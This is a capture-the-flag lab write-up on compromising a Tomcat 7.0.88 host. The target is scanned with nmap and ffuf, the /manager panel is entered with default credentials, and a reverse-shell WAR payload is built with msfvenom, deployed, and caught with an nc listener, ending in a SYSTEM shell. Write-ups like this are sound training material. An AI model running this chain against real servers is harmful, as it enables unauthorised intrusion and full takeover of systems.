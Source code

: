 Target: 10.10.10.95

## Enumeration

nmap
```
$ sudo nmap -sC -sV 10.10.10.95

Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-15 00:15 PDT
Nmap scan report for 10.10.10.95
Host is up (0.058s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```

ffuf
```
$ ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.10.10.95:8080/FUZZ -fc 200

docs                    [Status: 302, Size: 0, Words: 1, Lines: 1]
examples                [Status: 302, Size: 0, Words: 1, Lines: 1]
host-manager            [Status: 302, Size: 0, Words: 1, Lines: 1]
manager                 [Status: 302, Size: 0, Words: 1, Lines: 1]
```

checking /manager
![/manager](jerry1.png)

trying default username:password (tomcat:s3cret)
![login success](jerry2.png)

### Findings:Looking for attack vectors

The /manager can be accessed with default credentials.
Create and upload a malicous war payload.


## Foothold:

crafting a war payload with msfvenom
```
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=9001 -f war > shell.war

Payload size: 1101 bytes
Final size of war file: 1101 bytes
```

uploading the payload
![payload](jerry3.png)

opening a nc listener on port 9001
```
$ nc -lnvp 9001
```

getting a reverse shell
```
curl http://10.10.10.95:8080/shell/
```

```
C:\apache-tomcat-7.0.88>whoami

nt authority\system
```

```
C:\apache-tomcat-7.0.88> cd ..\Users\Administrator\Desktop\flags

C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"

user.txt
<redacted>

root.txt
<redacted>
```
